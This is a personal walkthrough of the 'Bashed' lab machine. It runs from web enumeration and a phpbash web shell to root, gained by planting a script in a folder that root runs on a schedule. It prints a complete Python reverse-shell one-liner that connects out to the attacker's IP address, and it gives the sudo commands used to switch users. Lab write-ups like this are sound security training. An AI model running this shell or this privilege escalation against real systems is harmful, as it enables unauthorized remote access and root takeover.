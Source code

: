 # Bashed

Bashed

Wednesday, 2 February 2022

8:35 pm

&#x20;

This is a Linux machine.

My IP address is 10.10.16.4.

Target IP address is 10.10.10.68.

&#x20;

Initial nmap scan reveals this is another port 80 machine. Further scanning would reveal that I am dealing with **Apache 2.4.18, and it's title is Arrexel's Development Site.** Another Nmap scan using the vuln script shows nothing of interest.

!\[\[12\_Bashed\_image001.png]]

&#x20;

Gobuster directory enumerates out some directories as well.

!\[\[12\_Bashed\_image002.png]]

&#x20;

When visiting the website, it tells us something about phpbash. This seems to be some form of web exploit that allows us to gain a shell into the web server that is hosting it, whereby we are the www-data user. Reading the github, it is accessed by going to the **/uploads/phpbash.php** directory. The author of the site has stated that he has run it and we need to be able to execute the php codes as such, In this case we need to see if we can start port configuration back to our machine.

&#x20;

We can access this php code via the /dev directory. This instantly gives us a web shell! From here, we can get the user flag!

&#x20;

!\[\[12\_Bashed\_image003.png]]

&#x20;

However, we do not have root privileges yet. As such, we need to find ways to execute some stuff.

Checking what we can execute gives us an idea of how to continue.

&#x20;

!\[\[12\_Bashed\_image004.png]]

&#x20;

Seems that that user can run everything, so we need to check what he can run currently on the machine. But first, we need to get out of this shell and put it on Kali as we're still stuck in the web browser. We can do this as such:

&#x20;

**Python -c 'import socket,os,pty;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.16.4",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'**

&#x20;

Execute this and have a listener port and we can spawn a reverse shell easily. From there, we can start to execute other codes and stuff. From here, we already know that we are allowed to execute codes from scriptmanager account. Using **sudo -lu scriptmanager /bin/bash**, we are able to spawn in a terminal that allows us to access the scriptmanager account.

!\[\[12\_Bashed\_image005.png]]

&#x20;

Taking a look around, there seems to be nothing of interest to my eye. From here, I did **ls -al** to check on what is interesting. Weird thing is that the scriptmanager account is allowed to execute stuff from /scripts directory. Inside there, there is a test.py and a test.txt.

!\[\[12\_Bashed\_image006.png]]

&#x20;

The code for the python script seems to open the test.txt and then write to it. So the test.txt is produced by the python script. Interestingly, the test.py script is owned by scriptmanager.

!\[\[12\_Bashed\_image007.png]]

Interesting! The script is owned by script manager. When I viewed the ls -la again, it seems that test.txt was updated yet again! This would mean something is executing it over and over, making sure that the test.txt file is new.

!\[\[12\_Bashed\_image008.png]]

&#x20;

The answer was simple, I just need to run this script as a reverse shell somehow, and that will get me the root account. I made a simple script that would connect me back to the web server. I then opened up a HTTP server.

!\[\[12\_Bashed\_image009.png]]

&#x20;

!\[\[12\_Bashed\_image0010.png]]

&#x20;

After which, I transferred the file over to the /script directory and made it executable.

!\[\[12\_Bashed\_image0011.png]]

&#x20;

Understanding that the script was just waiting to be executed, I just waited with the listener port and lo and behold, we gain the root shell.

{width="6.770833333333333in" height="8.114583333333334in"}

&#x20;

Overall, a great box.

&#x20;

The things I learnt was how to create a simple python reverse shell script, as shown. The next thing I have learnt was that it important to **monitor the processes using ls -la** in order to **determine what are executables that we can easily exploit.** After identifying /script, I was able to create a simple script, understanding that the whole /script folder was being executed over and over again by root.

&#x20;

Things that I could have done differently would be to determine the total processes running using applications like pspy. This would have made it clearer to me, as I might have had to replace the entire test.py file with my own code. Other methods would include writing over a totally new python script that would give me the reverse shell.wd
